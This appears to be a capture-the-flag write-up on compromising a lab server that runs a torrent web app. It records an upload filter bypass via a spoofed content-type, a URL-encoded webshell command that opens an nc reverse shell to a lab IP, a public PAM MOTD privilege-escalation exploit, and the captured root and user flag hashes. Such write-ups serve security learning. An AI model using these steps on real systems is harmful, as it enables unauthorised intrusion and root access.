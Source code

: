 LESSON LEARNED: 
- Always use gobuster medium and common
- If Creating your own torrent file wont do , just download real one
- Always check for files especially user home files
- Update finding files skill / note
- Update upload bypass notes


Port 22
=========
 OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)

Port 80
============
/test
Suhosin Patch 0.9.7

/torrent
can register account to login and upload file but php not allowed


/rename
allow file rename
?filename=index.html&newfilename=test.html
No such file or directory in /var/www/rename/index.php on line 4

upload kali image downloaded from kali official website
edit torrent and add screenshot

file extension : test1.php
```
content-type : image/png
```
looks like file name is not filtered but content-type is filtered


/torret/uploads/ewqo9129321-test1.php
```
?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.26%204567%20%3E%2Ftmp%2Ff
```
cat /etc/passwd got user george
at /home/george found .cache/motd.legal-displayed 

quick google "motd.legal-displayed exploit" found
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation

wget it from localhost to remote machine and run
./exploit.sh

root : dac9f0feac2821f258795a2570209e36
user : 07315850a09835d330fae25fa6df0612


